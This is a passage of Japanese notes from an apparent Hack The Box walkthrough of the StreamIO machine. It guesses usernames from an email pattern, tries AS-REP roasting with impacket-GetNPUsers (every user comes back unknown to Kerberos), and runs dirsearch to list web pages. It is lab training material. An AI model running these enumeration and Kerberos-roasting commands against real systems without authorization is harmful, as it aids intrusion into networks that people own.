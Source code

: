- `https://streamio.htb/about.php`
`oliver@Streamio.htb`というのが分かった
- この命名規則に従うと以下のようなメールアドレス、ユーザー名が推測できる
	- `barry@Streamio.htb`
	- `samantha@Streamio.htb`
![](https://i.imgur.com/NvhbdEe.png)

![](https://i.imgur.com/lhsP0h8.png)


## AS-REP Roasting
- 得られたユーザー名で、AS-REPを持っているユーザーがいないかを確認する
- ダメそう
```bash
┌──(kali㉿kali)-[~/Desktop/HTB/machine/StreamIO]
└─$ impacket-GetNPUsers streamIO.htb/ -dc-ip 10.129.186.103 -no-pass -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

```


![](https://i.imgur.com/BVQDjdX.png)

## Dirsearch
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/StreamIO]
└─$ dirsearch -u streamIO.htb -t 50 -i 200 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                                               
 (_||| _) (/_(_|| (_| )                                                                                                                                                        
                                                                                                                                                                               
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HTB/machine/StreamIO/reports/_streamIO.htb/_25-08-21_01-04-42.txt

Target: https://streamIO.htb/

[01:04:43] Starting:                                                                                                                                                           
[01:04:48] 200 -    8KB - /about.php                                        
[01:04:55] 200 -    6KB - /contact.php                                      
[01:04:58] 200 -    1KB - /favicon.ico                                      
[01:05:02] 200 -    4KB - /login.php                                        
[01:05:07] 200 -    4KB - /register.php                                     
                                                                             
Task Completed                    
```
